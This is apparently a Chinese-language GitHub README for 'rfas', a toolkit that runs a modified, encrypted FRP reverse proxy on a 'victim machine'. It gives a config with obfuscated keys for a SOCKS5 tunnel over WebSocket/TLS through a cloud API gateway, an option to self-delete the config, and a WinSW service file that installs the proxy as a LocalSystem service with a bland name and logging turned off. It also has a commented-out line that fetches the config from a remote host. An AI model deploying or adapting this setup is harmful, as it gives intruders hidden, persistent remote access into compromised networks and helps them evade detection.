 # rfas
FRP采用云函数+TLS加密，采用Websocket通信，配置文件也做了加密

将压缩包上传到受害者机器，解压，运行

这里注意的一点是run.xml是run.exe的配置文件，用来定义自启服务的配置，文件名要和配置文件名字统一

zz是frp的配置文件

如果不想做流量加密，将f3p.exe替换为正常的frp文件即可，配置文件同理

尖括号<>里为参数说明，正式使用请删除

zz
```
[common]
n2PvV = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
05ZBz = 443 <wss服务端口>
tx06L = qax!@#123 <连接服务器的token>
9XiEV = wss <WebSocket协议>
zSYqj = true
fV0yw = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
LYn04 = false <是否自删除配置文件>

[plugin_socks55]
N4DCJ = tcp
aQmFn = 8999 <remote_port>
oAZdB = true
aYpEk = true
umsUv = socks5 <协议>
```
run.xml
```
<service>
    <id>AppMgemt</id>
    <name>AppMgemt</name>
    <description></description>
    <!--
    <download from="http://x.x.x.x/<frp配置文件>" to="%BASE%\zz" />
    !-->
    <executable>"%BASE%\f3p.exe"</executable>
    <arguments></arguments>
    <serviceaccount>
      <username>LocalSystem</username>
     <!--
       <username>NT AUTHORITY\SYSTEM</username>
     !-->
    </serviceaccount>
    <log mode="none"/>
</service>
```
run.exe install & run.exe start

<img width="864" alt="image" src="https://user-images.githubusercontent.com/26845888/153735306-d161b493-caa0-4a43-8422-947ffbdea34e.png">

扩展：https://github.com/winsw/winsw
